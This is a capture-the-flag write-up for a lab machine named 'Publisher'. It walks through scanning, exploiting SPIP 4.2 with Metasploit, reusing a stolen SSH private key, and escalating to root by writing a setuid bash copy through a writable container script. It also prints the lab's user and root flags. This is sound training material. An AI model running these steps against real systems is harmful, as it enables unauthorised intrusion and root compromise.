





# 🕵️‍♂️ Publisher | Writeup | 25 July 2025

<div align="center">
    
</div>
<div align="center">
    
</div>

---

<div align="right">
  <p><strong>Author:</strong> <em>Aakash Modi</em></p>
</div>

## 🚩 Table of Contents

- [Reconnaissance & Enumeration - Task 1](#reconnaissance--enumeration---task-1)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

# 🕵️ Reconnaissance & Enumeration - Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN nmap_scan.txt 10.10.5.56
```
<p align="center">
  
</p>

---

## 📂 Directory Scan (Gobuster)

**Command:**
```bash
gobuster dir -u http://10.10.45.220/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -s '200,301' -b "" -o dir_search.txt 
```
<p align="center">
  
</p>

---

## 🔎 Web Vulnerability Scanning

**Nikto Scan:**
```bash
nikto -h http://10.10.209.74/ -o nikto_scan.txt
```
<p align="center">
  
</p>

---

## 🌐 Web Enumeration

- **Website Look:**  
  

- **SPIP Site Found:**  
  

- **SPIP Version via Wappalyzer:**  
  

- **Login Page:**  
  

---

### 🔍 Exploit Search

We identified the CMS as **SPIP**.

**Command:**
```bash
searchsploit spip 4.2
```


The exploit is also available in Metasploit.

**Metasploit Commands:**
```bash
search spip 4.2
set targeturi /spip
set lhost <YOUR_IP>
set rhost <TARGET_IP>
exploit
```


---

## 🏁 User Flag

- **Flag:**  
  ```
  fa229046d44eda6a3598c73ad96f4ca5
  ```
  

---

## 🔑 SSH Private Key Extraction

1. **List hidden files:**
   ```bash
   ls -a
   ```
   

2. **Copy the private SSH key to your machine:**
   

3. **Create and set permissions:**
   ```bash
   touch id_rsa
   chmod 600 id_rsa
   ```

4. **Connect via SSH:**
   ```bash
   ssh -i id_rsa <user>@<IP>
   ```
   

5. **Access as 'think' user:**
   

---

# 🚀 Privilege Escalation

## 🔎 SUID Binaries

**Find SUID binaries:**
```bash
find / -perm -u=s -exec ls -l {} \; 2>/dev/null
```
<details>
<summary>Output</summary>

```
-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 177672 Apr 11 12:16 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root dip 393144 Jul 23  2020 /usr/sbin/pppd
-rwsr-xr-x 1 root root 16760 Nov 14  2022 /usr/sbin/run_container
-rwsr-xr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 38800 Feb  9  2024 /usr/bin/fusermount
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 55616 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 49976 Feb  6  2024 /usr/bin/sudo
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 67616 Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 44744 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 31032 Feb 21  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /usr/bin/umount
```
</details>


The only suspicious binary is **run_container**. After checking hints, we look into AppArmor profiles:


---

## 🔎 LinPEAS Enumeration

Run LinPEAS for further enumeration:

```bash
sh linpeas.sh
```


Found a writable file with special permissions:


---

## ⚡ Exploitation

We found `/opt/run_container.sh` is writable. Let's use it to escalate privileges.

1. **Move to /var/tmp:**
   ```bash
   cd /var/tmp
   cp /bin/bash .
   ```

2. **Edit `/opt/run_container.sh`:**
   ```bash
   #! /bin/bash
   cp /bin/bash /var/tmp/bAsh
   chmod +s /var/tmp/bAsh
   ```
   

3. **Run the SUID binary:**
   ```bash
   /usr/sbin/run_container
   ```
   
   

4. **Get root shell:**
   ```bash
   ./bAsh -p
   ```
   

---

## 🏆 Root Flag

- **Flag:**  
  ```
  3a4225cc9e85709adda6ef55d6a4f2ca
  ```
  

---

# 🎯 Conclusion

- All tasks completed successfully!

  

---

## 🎉 Happy Hacking!

<p align="center">
  
</p>

---


